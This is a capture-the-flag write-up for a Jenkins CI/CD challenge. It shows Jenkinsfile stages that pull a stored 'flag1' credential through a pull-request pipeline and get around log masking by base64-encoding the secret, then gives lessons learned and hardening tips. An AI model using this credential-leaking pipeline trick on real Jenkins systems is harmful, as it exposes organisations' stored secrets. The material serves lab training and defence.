



# White Rabbit

The challenge : I’m late, I’m late! No time to say ״hello, goodbye״! Before you get caught, use your access to the Wonderland/white-rabbit repository to steal the flag1 secret stored in the Jenkins credential store.

## Brainstorming

For starter, we were given credentials for :
- **Jenkins** http://localhost:8080
  - Username: alice
  - Password: alice
- **Gitea** http://localhost:3000
  - Username: thealice
  - Password: thealice
- **GitLab** http://localhost:4000
  - Username: alice
  - Password: alice1234

And when we look at the challenge, it seems that the flag1 is a secret that was stored in Jenkins. Moreover, the challenge told us to use our access to the repository in gitea to do that so it might be vulnerability related to Jenkinsfile. 

## Messing with the pipeline 

First we try to change the Jenkinsfile and create a new pull request and we see that the pipeline were automatically built. It mean that we can get credentials of Jenkins through the pipeline. 


## Getting the credentials through Jenkins pipeline

To get the credentials through Jenkinsfile, we can add this stage to the Jenkinsfile :
```
stage('Looking for credentials') {
  steps {
    withCredentials([string(credentialsId : 'flag1', variable : 'SECRET')]) {
      sh ''' env
    '''                 
    }
  }
}
```

However it seems like the secret were masked 


But that was not secure as state in here : https://www.jenkins.io/blog/2019/02/21/credentials-masking/

So we now know that despite being masked and cannot be print directly to the build log, the secret can be encrypt to base64 and then print that result to the build log 



So we change the Jenkinsfile to this to print out the base 64 of the secret : 

stage to the Jenkinsfile :
```
stage('Looking for credentials') {
  steps {
    withCredentials([string(credentialsId : 'flag1', variable : 'SECRET')]) {
      sh ''' echo $SECRET | base64 
    '''                 
    }
  }
}
```

Take that base64 string and decode it and we will have the flag : 06165DF2-C047-4402-8CAB-1C8EC526C115

## Lesson learned 

Anyone with write access to a repository built on Jenkins can uncover all Global credentials by modifying a Jenkinsfile in that repository.

Anyone who can create jobs on Jenkins can uncover all Global secrets by creating a pipeline job.

## Best practices

1. Hide Jenkins behind a VPN
2. Regularly update Jenkins
3. Follow the principle of least privilege
4. Limit the access scope

## Reference 
https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security/basic-jenkins-information
https://www.codurance.com/publications/2019/05/30/accessing-and-dumping-jenkins-credentials
https://www.jenkins.io/blog/2019/02/21/credentials-masking/